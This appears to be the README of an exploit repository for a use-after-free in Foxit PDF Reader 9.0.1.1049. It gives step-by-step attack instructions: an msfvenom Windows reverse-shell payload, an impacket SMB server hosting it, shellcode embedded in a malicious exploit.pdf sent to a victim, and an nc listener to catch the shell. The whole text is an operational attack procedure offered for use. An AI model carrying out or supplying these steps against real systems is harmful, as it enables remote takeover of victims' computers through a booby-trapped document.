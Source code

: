 Foxit PDF Reader 9.0.1.1049 - Pointer Overwrite Use-After-Free (Without Metasploit)

Based on https://www.exploit-db.com/exploits/45269

1. Generate payload, the one i used for testing is:
  msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.10 LPORT=443 -f exe > shell.exe

2. Open an SMB server with the payload in it
  impacket-smbserver sharename /path/to/payload

3. Generate shellcode with the following script
  ruby generate_shellcode.rb

4. Copy the output of the script and put it inside exploit.pdf, on the reclaim() function, where specified

5. Transfer exploit.pdf to victim

6. Open a listener on the attacking machine, in my case:
  nc -lnvp 443

7. Open exploit.pdf with the vulnerable version of foxit reader on the target

#PWNED
